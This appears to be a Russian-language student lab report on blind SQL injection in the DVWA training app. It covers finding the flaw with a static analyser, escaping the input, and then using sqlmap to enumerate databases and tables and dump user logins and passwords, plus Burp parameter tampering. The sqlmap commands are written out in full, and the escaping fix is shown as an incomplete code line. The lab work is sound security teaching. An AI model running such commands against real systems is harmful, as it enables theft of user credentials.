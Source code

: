 1. Участок кода, содержащий инъекцию SQL кода в задании Blind Sql Injection, найден с помощью статического анализатора кода Sonacloud
   
   Change this code to not construct SQL queries directly from user-controlled data.
   "SELECT first_name, last_name FROM users WHERE user_id = '$id';";

   Так как переменная '$id' никак не обрабатывается и просто передаётся в SQL запрос, возможно использование SQL инъекции. Стоит обработать переменную '$id'
   ![исходный_код](https://github.com/egorvozhzhov/Prac4/assets/71019753/d1e542ce-4a71-45f3-bcc9-a93a1490bfe0)
   ![исходный_код2](https://github.com/egorvozhzhov/Prac4/assets/71019753/8000c0bf-4edc-4eaf-bbf8-14ac7d148e64)
3. Второе задание представлено в task2.php
4. Уберем из строки специальные символы, тем самым обработав переменную id

      $id = real_escape_string($_GET[ 'id' ])
   
   Теперь анализатор не выявил уязвимости
   ![исправленный_код](https://github.com/egorvozhzhov/Prac4/assets/71019753/43d1f9cb-aaac-4c4c-95ed-aac3a41a740c)

6. С помощью sqlmap обнаружим ту же уязвимость
   ![sqlmap](https://github.com/egorvozhzhov/Prac4/assets/71019753/a59a563f-e442-4c14-a41d-656998e6308f)

   Далее с помощью команды

   ./sqlmap.py -u 'http://dvwa.local/vulnerabilities/sqli_blind/?id=1&Submit=Submit#' --cookie='PHPSESSID=lpt13p37datab388tua861oi17; security=low' -dbs

   получим список баз данных

   ![image](https://github.com/egorvozhzhov/Prac4/assets/71019753/94e8d3f3-7f8a-4b2b-9a7e-c1b565a02f96)

   Далее с помощью команды

   ./sqlmap.py -u 'http://dvwa.local/vulnerabilities/sqli_blind/?id=1&Submit=Submit#' --cookie='PHPSESSID=ng3og3t2n4he6a35bs3tq2loi1; security=low' –D dvwa —tables

   получим названия таблиц

   ![image](https://github.com/egorvozhzhov/Prac4/assets/71019753/e5b0db8e-4c4b-4956-8989-dd074cdd646f)

   Далее с помощью команды 

   ./sqlmap.py -u 'http://dvwa.local/vulnerabilities/sqli_blind/?id=1&Submit=Submit#' --cookie='PHPSESSID=ng3og3t2n4he6a35bs3tq2loi1; security=low' –D dvwa –T users –C user,password —dump

   из таблицы users получим логины и пароли

   ![Uploading image.png…]()

   Вот и все логины и пароли


8. Настроим прокси в браузере и Burp, затем перехватим запрос, поменяем парамеатр и отправим запрос с измененным параметром, что бы получить имена всех пользователей
    ![burp](https://github.com/egorvozhzhov/Prac4/assets/71019753/149f6700-a291-4001-96e8-da9cba8b66f4)


